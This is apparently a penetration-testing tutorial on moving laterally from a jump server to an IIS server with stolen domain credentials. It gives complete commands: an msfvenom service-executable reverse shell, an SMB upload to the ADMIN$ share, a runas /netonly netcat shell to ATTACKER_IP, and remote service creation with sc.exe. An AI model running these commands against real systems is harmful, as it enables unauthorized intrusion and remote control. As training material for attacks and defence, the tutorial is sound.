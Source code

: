 # Example

Suppose the following scenario where we have obtained two sets of AD credentials:&#x20;

a. Low privileges (user)

b. Administrative access (admin)&#x20;

Our goal is to obtain a shell session on an _IIS_ server with administrative privileges. There are 2 servers we will be working with:

a. Intermediary (`jmp.test.com`)

b. IIS (`iis.test.com`)

Let's assume that the Intermediary server have no data that will be interesting to us, and it simply functions as an intermediary to get to the _IIS_ server. The main goal is the _IIS_ server, which is only accessible/routable from the intermediary server due to network restrictions, firewalls, etc.

The first set of AD credential allows us to gain a remote shell session on the intermediary machine (`jmp.domain`), via SSH.&#x20;

However, the _IIS_ server does not expose a SSH service. Thus, we need to make use of the session we have on the intermediary server to move laterally to the _IIS_ server (`iis.domain`) using the obtained admin credentials, to gain a remote session with administrative privileges.&#x20;

### (1) Using `sc.exe`

{% embed url="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754599(v=ws.11)" %}

#### 1. SSH into the intermediary server (with the first set of low-privileged credentials)

```sh
$ ssh test.com\\user@jmp.test.com
```

This will provide us a command prompt:

```
C:\Users\user> whoami
user
```

#### 2. Craft the reverse shell payload (`msfvenom`) and upload it to the IIS server (with admin credentials)

We can use `msfvenom`  to craft a payload in the `exe-service` format, which allows us to encapsulate our payload inside a fully functional service executable.

{% code title="Attacker" overflow="wrap" %}
```sh
# take note of the LPORT value, it is required when we are starting the msfconsole listener
$ msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=9999 -o <service_exec_name>.exe
```
{% endcode %}

> Replace ATTACKER\_IP with IP address of your attacker machine

**Uploading the payload**

Now, we can upload the payload to the _IIS_ server (`smbclient`), and subsequently start a listener with `msfconsole` :

{% code title="Attacker" overflow="wrap" %}
```sh
# lets first identify the name of the admin share
$ smbclient -U admin -L '//iis.test.com' -W test.com
Sharename       Type      Comment
---------       ----      -------
 ADMIN$         Disk      Remote Admin
...

$ smbclient -c "put <service_exec_name>.exe" -U admin -W test.com '//iis.test.com/ADMIN$/' <password>
```
{% endcode %}

> Replace `service_exec_name>.exe` with the name of the executable file created with msfvenom

_Start the msfconsole listener (used to catch the shell in one of the later step):_

{% code title="Attacker" overflow="wrap" %}
```sh
$ msfconsole
msf6> use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 9999 
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > exploit 
```
{% endcode %}

{% embed url="https://jarrettgxz-sec.gitbook.io/networking-concepts/networking-tools/miscellaneous/smbclient" %}

#### 3. Spawn a remote `/netonly` shell session on the intermediate server (as the admin)&#x20;

Start a listener on the attacker machine on eg. port **8888**

* This is the listener that provides us a remote shell session as the admin (next step)

{% code title="Attacker" %}
```sh
$ nc -lvnp 8888
```
{% endcode %}

From the remote shell session (step 1), we can spawn a new `/netonly` shell to allow us to perform network connections/requests as the admin:

{% code title="jmp.test.com (user)" overflow="wrap" %}
```sh
C:\Users\user> runas.exe /netonly /user:test.com\admin "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 8888"
```
{% endcode %}

The listener on port **8888** will receive a remote command prompt on `jmp.test.com` as the admin:

{% code title="jmp.test.com (admin)" %}
```
C:\Windows/system32> whoami
user
```
{% endcode %}

> Notice that the `whoami` command in the new command prompt returns the name of the original user, instead of the admin user. This is because of the `/netonly` command which specifies that the supplied credentials should only be used for network connections, while normal commands will still be as the original user.

#### 4. Start a service (`sc.exe`) on the _IIS_ server that automatically executes the uploaded reverse shell payload

Now, with a shell session as the admin, we can create a service executable that calls our uploaded `msfvenom` payload created earlier:

{% code title="jmp.test.com (admin)" overflow="wrap" %}
```powershell
# start powershell
C:\> powershell

PS> sc.exe \\iis.test.com create rvshell binPath= "%windir%\myservice.exe" start= auto
PS> sc.exe \\iis.test.com start rvshell
```
{% endcode %}

Now, when the _IIS_ server startups, we will retrieve a reverse shell connection from the `msfconsole` session established earlier:

{% code title="iis.test.com (admin)" %}
```
C:\Windows/system32> hostname
iis
```
{% endcode %}

**Additional notes**

_**(1)**_ Access will be denied if we attempt to create the service on the `iis.test.com` server as a normal user:

```powershell
C:\Users\user> sc.exe ...
[SC] OpenSCManager FAILED 5:

Access is denied.
```

_**(2)**_ It will not work expected if we tried to establish a reverse shell connection from the admin shell directly with `sc.exe` using the `binPath` option:

{% code title="jmp.test.com (admin)" overflow="wrap" %}
```powershell
C:\Windows/system32> sc.exe \\iis.test.com create <servicename> binPath= "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 9999" start= auto

C:\Windows/system32> sc.exe \\iis.test.com start <servicename>
```
{% endcode %}

More accurately, this action will actually establish a remote shell on the target `iis.test.com` server, but will be terminated shortly after.

This is because the service manager expects the executable that is being executed to function as a service executable (perform certain actions), which is different from standard `.exe` files, as with what we have provided. The method we have explored with `msfvenom` works as it encapsulates the payload within a valid service executable.
